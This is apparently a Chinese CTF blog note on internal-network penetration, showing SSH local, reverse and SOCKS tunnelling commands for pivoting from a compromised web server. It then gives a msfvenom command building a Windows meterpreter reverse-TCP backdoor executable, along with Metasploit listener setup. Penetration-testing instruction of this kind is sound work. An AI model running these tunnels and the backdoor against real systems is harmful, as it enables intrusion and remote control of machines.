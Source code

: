 ```yaml
---
title: 内网
date: 2020-10-30 08:01:50
tags: CTF
---
```


# 内网渗透篇

## 一、隧道技术-SSH

**正向链接实现**

web 服务器执行`ssh –CNfL 0.0.0.0:7777:10.10.10.129:80 moon@192.168.0.144`

将10.10.10.128:80端口映射到`0.0.0.0:7777`,然后浏览器访问`192.168.0.144:7777`就能够访问内网的`10.10.10.129:80`

**反向链接实现**

```
ssh -qTfnN -R port:host:hostport  remote_ip
```

这是标准的匹配的模式

下面进行秀操作

```
ssh –qTfnN –R 2222:127.0.0.1:22  root@192.168.0.115
ssh –p 2222 web@127.0.0.1
```

将`127.0.0.1:22`端口转发到`192.168.0.115`

然后第二条命令是在攻击机上面执行，进行登陆。

**sockets代理**

```
SSH -qTfnN -D port remotehost
```

然后设置代理(被攻击的服务器的ip+端口)

## 二、端口转发

生成metasploit的后门

```
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.0.196  lport=12345 -f exe >/var/www/html/ss.exe
```

设置kali的监听

```
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 192.168.43.224
set lport 12345
exploit
```
